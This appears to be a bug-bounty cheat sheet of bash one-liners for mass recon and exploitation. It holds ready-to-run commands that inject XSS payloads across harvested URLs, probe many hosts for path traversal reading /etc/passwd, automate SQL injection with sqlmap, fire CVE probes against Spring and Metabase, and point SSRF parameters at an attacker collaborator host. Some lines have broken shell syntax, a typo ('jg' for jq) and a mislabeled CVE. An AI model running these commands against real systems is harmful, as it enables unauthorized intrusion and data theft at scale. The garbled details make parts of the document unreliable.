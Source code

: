 ```bash
ffuf -c -u URL -H "Host: FUZZ" -w FILE.txt 
```
**Recon Using api.recon.dev**
```bash
curl -s -w "\n%{http_code}" https://api.recon.dev/search?domain=HOST | jg .[].domain
```
**Find Live Host/Domain/Assets**
```bash
subfinder -d HOST -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```
**XSS without gf**
```bash
waybackurls HOST | grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -sk --path-as-is "$host" | grep -qs "<script>alert(1)</script>" && echo "$host is vulnerable"; done
```
**Get Subdomains from IPs**
```bash
python3 hosthunter.py HOSTS.txt > OUT.txt
```
**Gather Domains from Content-Security-Policy**
```bash
curl -vs URL --stderr - | awk '/^content-security-policy:/' | grep -Eo "[a-zA-Z0-9./?=_-]*" |  sed -e '/\./!d' -e '/[^A-Za-z0-9._-]/d' -e 's/^\.//' | sort -u
```
**Nmap IP:PORT Parser Piped to HTTPX**
```bash
nmap -v0 HOST -oX /dev/stdout | jc --xml -p | jq -r '.nmaprun.host | (.address["@addr"] + ":" + .ports.port[]["@portid"])' | httpx --silent
```
**XSS from waybackurls**
```bash
echo https://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```
**Local File Inclusion**
```bash
cat hosts | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -path
"///////../../../etc/passwd" -mr "root:x" | anew lfi.txt
```
**Wordpress wp-content mysql.sql**
```bash
cat hosts.txt | httpx -c -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -p 80,443,8080,8443 | anew wp-sql.txt
```
**CVE-2022-22963 SpringShell`00 Status code indicates vulnerability`**
```bash
for host in hosts.txt; do curl $host:port/path?class.module.classLoader.URLs%5B0%5D=0; done
```
**SSRF using dnsx, httpx, gau, qsreplace**
```bash
cat subdomains.txt | dnsx | httpx -silent -threads 1000 | gau | grep "="  |
qsreplace http://hacker.burpcollaborator.net
```
**SQLi using dnsx, httpx, xargs, findomain, waybackurls, gf, sqlmap**
```bash
httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```
**Local File Inclusion using gau, gf, xargs**
```bash
cat sudomains.txt | httpx -silent -threads 500 | gau | gf lfi | qsreplace
"/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%"  2>&1 | grep -q "  root:x" && echo " VULN! %"'
```
**CVE-2021-41277 LocalFileInclusion in Metabase**
```bash
cat live.txt | while read host do;do curl --silent --insecure --path-as-is "$host/api/geojson?url=file:///etc/passwd" | grep -qs "root:x" && echo "$host Vulnerable";done
```